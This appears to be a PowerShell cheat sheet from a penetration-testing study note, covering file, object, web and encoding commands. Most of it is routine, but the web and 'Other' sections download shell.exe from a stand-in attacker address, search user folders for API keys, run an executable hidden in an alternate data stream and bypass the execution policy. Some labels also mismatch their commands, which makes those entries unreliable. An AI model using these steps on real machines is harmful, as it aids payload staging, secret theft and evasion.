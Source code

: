## General

- Change Directory:
`Set-Location -Path c:\users\administrator\desktop`

- Get Working Directory
`Get-Location`

## Network

- Get IP info
	```Powershell
		Get-NetIPAddress
	```

## Commands - info and filters

- Find command:
`Get-Command Verb-*`

- Get Command methods
`Get-Command | Get-Member -MemberType Method`

- Count number of cmdlets
`Get-ChildItem -Recurse | Where {$_.Name -match 'Replace'} | Select Fullname`

## Object manipulation

- Operators
`-operator` is a list of the following operators:
	-   -Contains: if any item in the property value is an exact match for the specified value
	-   -EQ: if the property value is the same as the specified value
	-   -GT: if the property value is greater than the specified value
	-  [Link to all operators](https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.core/where-object?view=powershell-7.2&viewFallbackFrom=powershell-6)

- Filter objects
`Verb-Noun | Where-Object -Property PropertyName -operator Value`
`Verb-Noun | Where-Object {$_.PropertyName -operator Value}`

- Sort objects:
`Verb-Noun | Sort-Object`

- View in GUI format
	```powershell
	Get-Process | Out-Gridview
	```

## Files 
- List files:
`Get-ChildItem`
`Get-ChildItem -File -Hidden -ErrorAction SilentlyContinue`

- Find files by extension:
	`Select-String -Path 'c:\users\administrator\desktop' -Pattern '*.pdf'`

- Find file by name:
	`Get-ChildItem -Recurse | Where {$_.Name -match 'Replace'} | Select Fullname`

	```Powershell
	Get-ChildItem -path C:\ -r -Include "*.back*"
	```

- Find files containing a string
	```Powershell
	Get-ChildItem -path C:\Users -Recurse | Select-String "API_KEY" -List
	```

- Read content:
`Get-Content`
`Get-Content -Path file.txt | Measure-Object -Word`

- Read content:
`type <filename>`

- Get more information for dir command
	```Powershell
	dir | Format-List *
	```

## Import/Export
- Export command output
	```Powershell
	Get-Process | Export-CSV output.csv
	```
	```Powershell
	Get-Process | Out-File processes.txt
	```


## Web
[Invoke Request docs with examples](https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/invoke-webrequest?view=powershell-7.2)

- Make request to web server
`$Response = Invoke-WebRequest -URI https://www.bing.com/search?q=how+many+feet+in+a+mile`

- Get links from a webpage
`(Invoke-WebRequest -Uri "https://aka.ms/pscore6-docs").Links.Href`

- Upload a file:
	```
	powershell -c "Invoke-WebRequest -Uri 'http://10.14.23.1:8080/shell.exe' -OutFile 'C:\Windows\Temp\shell.exe'"
	```


## Encoding and hashing
- Hash file:
`Get-FileHash -Algorithm MD5 file.txt`

- Decode base64 contents of file and output to output.bin
	```
	$file = ".\input.txt"; [System.Convert]::FromBase64String((Get-Content $file)) | Set-Content output.bin -Encoding Byte
	```

## Other

- View ADS (Alternate Data Streams):
`Get-Item -Path file.exe -Stream *`

- Launch the hidden executable hiding within ADS:
`wmic process call create $(Resolve-Path file.exe:streamname)`

- Execution Bypass for scope of current session
	```powershell
	Set-ExecutionPolicy Bypass - scope Process
	```

